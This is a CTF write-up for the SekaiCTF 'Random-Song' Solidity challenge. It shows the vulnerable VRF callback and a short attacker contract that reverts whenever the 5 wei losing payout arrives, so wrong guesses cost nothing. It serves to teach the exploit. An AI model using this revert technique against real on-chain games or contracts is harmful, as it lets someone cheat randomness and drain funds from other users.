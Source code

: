 # SekaiCTF Random-Song
Got the first blood BTW 😎😎😎

# Problems
We need to guess correctly the Chainlink VRF/Random Number that will be modulo'd by 3, given 3 attempts, we need to guess all 3 correctly.
The chances of guessing all 3 correctly without any trick is is 1/3^3 = 1/27. Which is kinda bruteforcable, but a bit tiring.

# Noticing the attack vectors
```ts
    function fulfillRandomWords(
        uint256, // requestId
        uint256[] memory randomWords
    ) internal override {
        uint256 songSeq = randomWords[0] % 3;

        bonusEnergy -= 10;

        // receive the bonus! 0v0
        if (touchSeq != songSeq) {
            payable(player).transfer(5 wei);
            return;
        }
        payable(player).transfer(10 wei);
        allPerfect += 1;
    }
```
Hmmm... Why would the contract send different amount of eth depending on the result of the guess? Could we use this to our advantage?

# Building the Attack contract
We could just revert the transaction if we receive 5 wei(When our guess didn't match the random number). So we didn't consume any bonusEnergy and wasting our attempts.
```ts
contract ctf{
    randomSong target = randomSong(0x999501110b68F7d3f3e81de719DD239A97f9647C);
    receive() external payable {
        require(msg.value==10);
    }
    function fill() public{
        target.fillEnergy();
    }
    function play(uint num) public{
        target.play(num);
    }
}
```

# Capturing the flag
1. Initialize the contract by sending LINK and calling `fill()`
2. Deploy the attacker contract
3. call the `play()` function on the attacker contract with any number till you got 3 answers correct

